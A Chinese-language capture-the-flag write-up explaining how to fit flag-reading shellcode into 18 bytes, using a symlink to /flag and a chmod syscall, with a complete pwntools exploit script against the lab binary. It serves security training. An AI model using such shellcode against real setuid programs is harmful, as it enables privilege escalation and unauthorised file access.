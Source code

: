 # 挑战简介
编写并执行 shellcode 来读取标志，但只能获得 18 个字节。

# 思路
只能写入18个字节，所以平常mov可就不能用了，因为mov对比push和pop操作整整多了一个字节，所以我们需要考虑灵活应用栈，用push和pop  
而且，/flag如果推进去，可是要花费5个字节，所以我们可以创建链接  
```
ln -s /flag f
```
更多的，如果你要利用open read write来实现读取的话，操作过程也太繁琐，你只需要一个操作，chmod，给与权限从而界外读取
```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

p = process('/challenge/babyshell-level-8')

p.recvuntil('Reading 0x12 bytes from stdin.\n')

shellcode = asm('''
    push 0x66    /* 将/flag的链接f推入栈 */
    mov rdi, rsp  /* 将rsp基址的值传给rdi */
    push 4       /* 将 4 推入栈，一般为赋给f的权限 */

_stage:
    pop rsi    /* 将4弹出栈，传参给rsi */
    push 90    /* 将值 90 压入栈（Linux x86-64中，90是chmod系统调用号） */
    pop rax     /* 将栈顶值弹出到 rax 寄存器（系统调用号90） */
    syscall
    ret
    ret
    ret
''')


# 为安全起见，打印完整的shellcode十六进制表示
print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 与shell交互
p.interactive()
p.recvall()
```
